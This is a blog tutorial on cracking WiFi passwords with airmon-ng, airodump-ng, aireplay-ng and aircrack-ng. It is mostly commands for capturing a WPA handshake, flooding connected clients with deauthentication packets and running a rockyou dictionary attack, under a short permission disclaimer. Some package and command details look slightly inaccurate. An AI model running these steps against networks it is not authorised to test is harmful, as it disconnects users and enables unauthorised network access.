 ```yaml
---
title: 'Wifi Password cracking.'
date: 'July 8, 2022'
excerpt: 'This blog will help you to crack wifi password using airmon-ng.'
cover_image: '/images/posts/mac-with-coffee.jpg'
---
```


# Wifi Password Cracking with airmon-ng.

>This blog will help you to crack wifi password using airmon-ng.

>Disclaimer: Use this cracking method only if you own the wifi or you have permission to crack. Don't use it illegal.

>The following instruction will lead you to own any wifi (only if the password is available on wordlist).            
---
---
## Tools needed: 
* kali-linux
( I have covered how to <u>[install kali-linux](/blog/install-kali)</u> )
* airmon-ng
* airodump-ng
* aireplay-ng
* aircrack-ng

Commands for installing required packages :
```bash
sudo apt update && sudo apt upgrade -y
sudo apt install airmon-ng airodump-ng aireplay-ng aircrack-ng
```

To kill all processes and wifi will also be disabled :
```bash
sudo airmon-ng check kill
```

To start wifi module :
```bash
sudo airmon-ng start wlan0 
```

 To start wifi into monitoring mode for capturing packets :
```bash
sudo airmon-ng start wlan0mon
```
This command is only for checking whether wifi is in monitoring mode wlan0mon :
```bash
iwconfig 
```
Shows the details of wifi networks available nearby :
```bash
sudo airodump-ng wlan0mon 
ctrl+c (stops capturing)
``` 
*copy the bssid and channel of wifi, which you want to get into.*

This command will show you one particular wifi network, you have to paste the channel no. and bssid of the particular wifi :
```bash
sudo airodump-ng wlan0mon -c <channel no.> --bssid <bssid> wlan0mon
```

The next instruction will help you to capture the 4-way handshake.
You have to specify any name in which the .cap captured flag will be saved
```bash
sudo airodump-ng wlan0mon -c <channel no.> --bssid <bssid> wlan0mon -w <name of the output file>
ctrl+c (stop capturing only after getting the 4-way handshake)
```

Now open another terminal (terminal 2) and run the following command for deauthenticating the devices connected to the wifi 
```bash
sudo aireplay-ng --deauth 0 -a <bssid> wlan0mon
```
(this command will deauthenticate/disconnect the already connected devices to that wifi. So that we can get the 4-way handshake)

**now the 4-way handshake will be saved in terminal 1**

```bash
ctrl+c (stop capturing only after getting the 4-way handshake)
```

*the captured file will be saved as .cap file in you directory*

This command stops monitoring mode :
```bash
sudo airmon-ng stop wlan0mon 
```

Restart your wifi module :
```bash
sudo service network-manager start 
```

Start cracking your password :
*(you have to specify the name of your .cap file and full path to the wordlist)*
```bash
aircrack-ng <name of the .cap file> -w /usr/share/wordlists/rockyou.txt
```



>It will start cracking the password. This attack is known as bruteforce attack or dictionary attack.

>Password will be cracked only if the password is available on the wordlist you are specifying.

>Save your wifi by having a strong password.

